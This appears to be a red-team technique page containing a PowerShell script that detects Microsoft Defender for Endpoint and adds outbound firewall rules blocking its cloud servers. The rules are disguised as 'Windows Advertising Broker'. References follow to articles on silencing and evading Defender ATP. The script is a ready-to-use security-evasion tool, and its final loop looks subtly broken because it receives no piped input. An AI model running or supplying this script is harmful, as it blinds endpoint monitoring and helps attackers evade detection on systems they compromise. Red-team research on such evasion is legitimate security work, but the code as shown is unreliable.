 # Windows

```powershell
# Define Cloud Security Vendor Address
# Windows Defender ATP

$MSATP1 = "securitycenter.windows.com"
$MSATP2 = "winatp-gw-cus.microsoft.com"
$MSATP3 = "winatp-gw-eus.microsoft.com"
$MSATP4 = "winatp-gw-weu.microsoft.com"
$MSATP5 = "winatp-gw-neu.microsoft.com"
$MSATP6 = "us.vortex-win.data.microsoft.com"
$MSATP7 = "eu.vortex-win.data.microsoft.com"
$MSATP8 = "psapp.microsoft.com"
$MSATP9 = "psappeu.microsoft.com"
$MSATPURLs = $MSATP1,$MSATP2,$MSATP3,$MSATP4,$MSATP5,$MSATP6,$MSATP7,$MSATP8,$MSATP9

# Checking for Behavioural Analysis AV security product processes and adding outbound FW blocks
Write-Output ("[*] Checking for Behavioural Analytics AV security product processes and adding outbound firewall block rules" + "`n")
[CmdletBinding()]
$processnames = Get-Process | Select-Object ProcessName
Foreach ($ps in $processnames) {
    if ($ps.ProcessName -like "*MsSense*") {
        Write-Output ("[*] Defender ATP process " + $ps.ProcessName + " is running." + " Resolving ATP FQDN IP's and blocking outbound connections.")
        $MSATPCouldIPs = $MSATPURLs | foreach {[System.Net.Dns]::GetHostAddresses($_)} | Select-Object -ExpandProperty IPAddressToString
        Foreach-Object {
            New-NetFirewallRule -DisplayName "Windows Advertising Broker" -Direction Outbound -Action Block -RemoteAddress "$_" -Profile Any
            Write-Host "$_ - Outbound Firewall Block Was Added: $?"
        }
    }
}
```

---
## References

- [Silencing Microsoft Defender for Endpoint using firewall rules](https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18)

- [Blackhat: Red Team Techniques for Evading, Bypassing, and Disabling MS Advanced Threat Protection and Advanced Threat Analytics](https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf)